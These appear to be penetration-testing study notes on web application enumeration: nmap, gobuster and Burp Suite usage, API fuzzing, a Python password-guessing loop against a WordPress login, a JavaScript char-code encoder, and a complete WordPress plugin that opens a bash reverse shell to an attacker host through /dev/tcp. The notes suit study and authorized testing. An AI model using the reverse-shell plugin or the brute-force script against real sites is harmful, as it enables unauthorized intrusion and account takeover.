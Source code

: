 # WebApps enum

OWASP top ten: https://owasp.org/www-project-top-ten/

## Nmap

```
sudo nmap -p80 -sV $IP
sudo nmap -p80 --script=http-enum $IP
```

## Wappalyzer

Technology stack: https://www.wappalyzer.com/

## Sitemaps

```
http://ip/robots.txt
http://ip/sitemap.xml
```

## Dirb

```
dirb http://$IP
```

## Gobuster 

### Directory brute force

Documentation on Kali: https://www.kali.org/tools/gobuster/
```
gobuster dir -u $IP -w /path/to/wordlist.txt
```
Kali wordlists: `/usr/share/wordlists/dirb/*.txt`

### Enumerating APIs

Make a pattern file `pattern.txt`:
```
{GOBUSTER}/v1
{GOBUSTER}/v1
```
then fuzz the placeholder with a wordlist:
```
gobuster dir -u http://ip:port -w /usr/share/wordlists/dirb/big.txt -p pattern.txt
```
Curl with headers: `curl -i`

Post json data:
```
curl -d '{"username":"someuser","password":"somepass"}' -H 'Content-Type: application/json' http://$IP/path/to/login/page.html
```

## Burp Suite

Proxy > Proxy Settings > Proxy Listeners\
Firefox > Connection Settings > Configure Proxy > Manual > 127.0.0.1\
Proxy > HTTP history > right-click "Send to repeater"\
Repeater > Send\
`cat /etc/hosts # add the website`\
Proxy > HTTP history > right-click "Send to intruder"\
Intruder > Clear/Add > Payload > Paste > paste a wordlist > check the return code

## Python manual password attack

Using the `requests` module: https://requests.readthedocs.io/en/latest/api
```
import requests
for i in ['test', 'pass', 'password']:
    r = requests.post('http://offsecwp/wp-login.php', data={'login_field': 'user_to_hack', 'password_field': i})
    print(r.status_code, len(r.content))
```

## Javascript

Shortcuts:
- console: `^C+^S+k`
- devtools: `^C+^S+i`

```
function myFunc(a,b){
  return a+b
  }
let c = myFunc(n1,n2)

function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

Minified Javascript: https://jscompress.com/

## WordPress reverse shell plugin

https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

Php file:
```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1'");
?>
```
then zip it: `zip revsh-wp-plugin.zip revsh-wp-plugin.php` \
and upload it on WordPress.
